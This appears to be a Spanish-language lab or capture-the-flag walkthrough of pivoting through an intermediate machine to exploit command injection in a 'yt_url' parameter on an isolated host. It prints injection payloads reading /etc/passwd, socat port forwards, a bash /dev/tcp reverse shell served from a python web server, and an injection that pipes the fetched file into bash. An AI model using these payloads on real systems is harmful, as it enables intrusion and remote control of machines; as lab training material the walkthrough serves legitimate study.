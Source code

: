 2- Abrimos un navegador  y navegamos al localhost y vemos la pagina que esta expuesta a la red de la tercera maquina mediante la maquina intermedia

3 - Reenviamos todas la peticiones a Burpsuit para interceptarlas y enviarla al repiter para ver su resuesta ,decodificamos la url de la peticion y verificamos que es un peticion a youtube lo que se esta enviando reenviamos la peticion y vemos la respuesta.
4- Aqui nos percatamos de que la hrramienta yt_url puede ejecutar comandos en su interios asi que probamos **$(whoami)** es decir le pasamos este comando por parametros para ver su comportamiento. Efectivamente devuelve informacion del sistema pero no completamente
5.le pondremos un parametro y lo enviaremos al intruder para de ahi hacer mas pruebas
6- Utilizamos los payloads de la libreria de github SecList que es una libreria para hacer pruebas para cargarle los ficheros al BUrpsuit , como bursuit no nos permitio porque habia cosas que necesitaban una licencia utilizamos Caido.io
7- Identificamos que pasandole unos parametors de una lista de caractres de la libreria que descargamos special.chsts.txt , esto lo hicimos de manera automatica . Obtuvimos buenos resultados con el simbolos < asi que le pasamos \<\`cat${IFS}/ets/passwd\`  
8 - Realizamos peticiones desde el Replay con esa estructura

#### SUPER IMPORTANTE ESTABLECER LA CONEXION DE LA MAQUINA AISLADA MEDIANTE LA INTERMEDIA
Ahora intentaremos establecen una conexion por **socat** desde la maquina DVM a treves  de la maquina wpown hacia nuestro equipo 
Este lo haremos para ejecutar un fichero de nuesro servidor que contiene un conexion reversa
maquina wpown
socat TCP-LISTEN:4545,fork TCP:192.168.1.97:2323

Levantamos en nuestra pc un servidor con python 
python -m http.server 2323

en la maquina intermedia redirigimos las peticiones al puerto 4747 hacia 192.168.1.97:2323
socat TCP/LISTEN:4545,fork TCP:192.168.1.97:2323

desde caido enviamos una peticion culr al puerto 4545

yt_url=\<\`cat${IFS}10.10.10.129:4545\`  

al ver que recibimos en el servidor de python la peticion creamos un fichero **index.html** para en el poner una ejecucion de shell remota

**#!/bin/bash**
**bash -i >& /dev/tcp/10.10.10.129/1212 0>&1**

esto lo que hace es establecer una coneccion a la maquina intermedia al puerto 1212 y en la maquina intermedia vamos a redirigir el trafico de ese puerto a nuestra maquina  a otro puerto 

**socat TCP-LISTEN:1212,fork TCP:192.168.1.97:3131**

luego escuchamos en nuestra maquina con netcat en el puerto destino que le indicamos arriba
**nc -nvlp 3131**

y desde caido enviamos la peticion esta ves con un bash agregado para que ejecute lo que hay dentro del fichero inde.html

yt_url=\<\`cat${IFS}10.10.10.129:4545 |bash \`

luego creamos la consola interactiva como anteriormente hicimos
